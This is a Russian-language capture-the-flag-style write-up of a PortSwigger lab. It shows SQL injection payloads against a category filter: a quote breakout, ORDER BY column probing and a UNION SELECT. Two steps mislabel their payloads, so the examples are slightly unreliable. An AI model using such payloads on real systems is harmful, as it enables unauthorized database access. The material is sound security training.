 # SQL injection UNION attack, determining the number of columns returned by the query

## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[SQL injection]] фильтр категории.

Для решения лабы необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Notes

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице и значения для фильтрации передаются через параметры `GET`-запроса.

![](../images/Pasted%20image%2020250118174935.png)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![](../images/Pasted%20image%2020250118175407.png)

Запрос к БД выглядел следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

`-- -` - это комментарий в `SQL`, с помощью я убрал всю последующую часть запроса, в текущем случае, это лишняя кавычка, которая ломала бы запрос;

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![](../images/Pasted%20image%2020250118180147.png)

Далее можно использовать бинарный поиск, для нахождения нужного значения. Т.е. передать 50. В случае ошибки взять 25, если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4. Для сокращения буду писать только часть пейлоада.

```
Accessories' ORDER BY 4-- -
```

![](../images/Pasted%20image%2020250118180405.png)

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

Супер. ~~Сбер теперь купер~~.

![](../images/Pasted%20image%2020250118180513.png)
 
 Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![](../images/Pasted%20image%2020250118180901.png)

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![](../images/Pasted%20image%2020250118180835.png)

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
